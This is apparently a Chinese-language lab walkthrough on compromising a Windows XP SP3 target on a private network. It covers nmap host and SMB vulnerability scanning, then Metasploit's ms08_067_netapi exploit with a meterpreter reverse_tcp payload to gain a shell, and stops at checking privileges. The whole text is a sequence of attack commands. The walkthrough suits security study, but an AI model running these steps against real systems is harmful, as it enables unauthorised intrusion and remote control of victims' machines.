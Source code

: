 此时，困扰我一天的问题终于解决了，又是这样简单的问题。  
终于可以进行**下一步**了

## 过程及命令
### 扫描
仅发现主机，不扫描端口（快速）  
`nmap -sn 192.168.118.0/24`

快速扫描并显示操作系统信息（需要root权限）  
`sudo nmap -O -F 192.168.118.0/24`

探测 SMB 服务版本，判断是否存在已知漏洞：  
`nmap -p 139,445 -sV --script smb-vuln* 192.168.118.201`

## 安装及攻击

安装（[参考教程](https://zhuanlan.zhihu.com/p/604440914) 记得更新apt）：  
`apt install metasploit-framework `

启动（出来的字符画还挺好看）  
`msfconsole`

搜索相关模块  
`search ms08-067`

设置 ms08_067_netapi 攻击模块  
`use exploit/windows/smb/ms08_067_netapi`

设置payload（反向连接载荷，让目标主动连接攻击者）  
`set payload windows/meterpreter/reverse_tcp`

查看选项  
`options`

设置要攻击的IP  
`set RHOSTS 192.168.118.201`

设置接收端IP（本机）  
`set LHOST  192.168.118.100`

设置接收端通信端口  
`set LPORT  4444 `

查看可以攻击的靶机操作系统型号  
`show targets`

选择windows xp sp3 简体中文  
`set targets 34`

实施**攻击**，得到shell  
`exploit`

## 提权和连接

查看当前权限：  
在meterpreter >提示符下输入：  
`getuid`
普通用户是：BUILTIN\Users  
如果已取得 `NT AUTHORITY\SYSTEM` 权限，则跳过提权
